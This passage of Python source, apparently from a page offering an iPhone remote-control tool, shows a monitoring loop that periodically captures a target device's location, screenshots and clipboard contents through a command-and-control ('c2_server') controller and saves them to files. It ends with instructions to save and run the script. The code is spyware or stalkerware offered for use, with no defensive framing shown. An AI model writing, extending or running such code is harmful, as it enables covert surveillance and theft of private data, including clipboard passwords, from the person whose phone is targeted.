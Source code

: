 ```python
        try:
            # Track location every 5 minutes
            location = await controller.track_location(device_id)
            if location:
                timestamp = datetime.now().strftime("%Y%m%d_%H%M%S")
                Path(f"tracking/location_{timestamp}.json").write_text(
                    json.dumps(location, indent=2)
                )
            
            # Capture screenshot every 10 minutes
            await asyncio.sleep(600)
            screenshot = await controller.capture_screen(device_id)
            if screenshot:
                timestamp = datetime.now().strftime("%Y%m%d_%H%M%S")
                Path(f"tracking/screenshot_{timestamp}.png").write_bytes(screenshot)
            
            # Monitor clipboard every 2 minutes
            await asyncio.sleep(120)
            clipboard = await controller.execute_command(device_id, 'monitor_clipboard')
            if clipboard and clipboard.get('content'):
                timestamp = datetime.now().strftime("%Y%m%d_%H%M%S")
                Path(f"tracking/clipboard_{timestamp}.txt").write_text(
                    clipboard['content']
                )
            
        except Exception as e:
            print(f"[!] Monitoring error: {e}")
            await asyncio.sleep(60)

async def main():
    controller = iPhoneRemoteControl(
        c2_server="http://localhost:8443",
        encryption_key=Path(".encryption_key").read_text().strip()
    )
    
    device_id = "00008030-001234567890ABCD"
    
    Path("tracking").mkdir(exist_ok=True)
    
    await monitor_device(controller, device_id)

if __name__ == "__main__":
    asyncio.run(main())
```

Save as `monitor_iphone.py` and run:
```bash
python3 monitor_iphone.py
```

---
